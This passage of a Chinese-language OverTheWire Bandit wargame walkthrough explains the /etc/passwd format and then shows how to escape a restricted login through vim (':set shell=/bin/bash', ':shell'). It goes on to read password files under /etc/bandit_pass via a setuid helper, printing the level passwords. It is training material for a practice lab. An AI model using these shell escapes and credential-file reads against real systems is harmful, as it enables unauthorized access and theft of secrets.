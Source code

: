 `bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext`
- passwd文件格式:
  - 账号名称：即登陆时的用户名
  - 密码：早期UNIX系统的密码是放在这个文件中的，但因为这个文件的特性是所有程序都能够读取，所以，这样很容易造成数据被窃取，因此后来就将这个字段的密码数据改放到/etc/shadow中了
  - UID：用户ID，每个账号名称对应一个UID，通常UID=0表示root管理员
  - GID：组ID，与/etc/group有关，/etc/group与/etc/passwd差不多，是用来规范用户组信息的
  - 用户信息说明栏： 用来解释这个账号是干什么的
  - 家目录：home目录，即用户登陆以后跳转到的目录，以root用户为例，/root是它的家目录，所以root用户登陆以后就跳转到/root目录这里
  - Shell：用户使用的shell，通常使用/bin/bash这个shell，这也就是为什么登陆Linux时默认的shell是bash的原因，就是在这里设置的，如果要想更改登陆后使用的shell，可以在这里修改。另外一个很重要的东西是有一个shell可以用来替代让账号无法登陆的命令，那就是/sbin/nologin。

---

## Bandit Level 26 → Level 27 `:set shell=/bin/bash, :shell`
Level Goal
- Good job getting a shell! Now hurry and grab the password for bandit27!

使用密码ssh登陆之后也是直接断开了，跟上一关一样
- 进入more模式，
- 利用vim模式执行命令，
- 不能用:e来读取文件bandit27-do，因为权限不够。
- !command也不行，!sh也不行，

vim还有一种需要先设置shell的目录才行
2. start a shell.
- Type in `:set shell=/bin/bash`
- and type in `:shell`
- This will spawn a bash shell and allow us to get the password for this level.

:shell
[No write since last change]
bandit26@bandit:~$
bandit26@bandit:~$ cat /etc/bandit_pass/bandit26
5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z


```py
# 5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z

bandit26@bandit:~$ ls
bandit27-do  text.txt

bandit26@bandit:~$ ./bandit27-do
Run a command as another user.
  Example: ./bandit27-do id

bandit26@bandit:~$ ./bandit27-do id
uid=11026(bandit26) gid=11026(bandit26) euid=11027(bandit27) groups=11026(bandit26)
# bandit27 can open This

bandit26@bandit:~$ cat /etc/bandit_pass/bandit27
cat: /etc/bandit_pass/bandit27: Permission denied

bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
3ba3118a22e93127a4ed485be72ef5ea
```

---
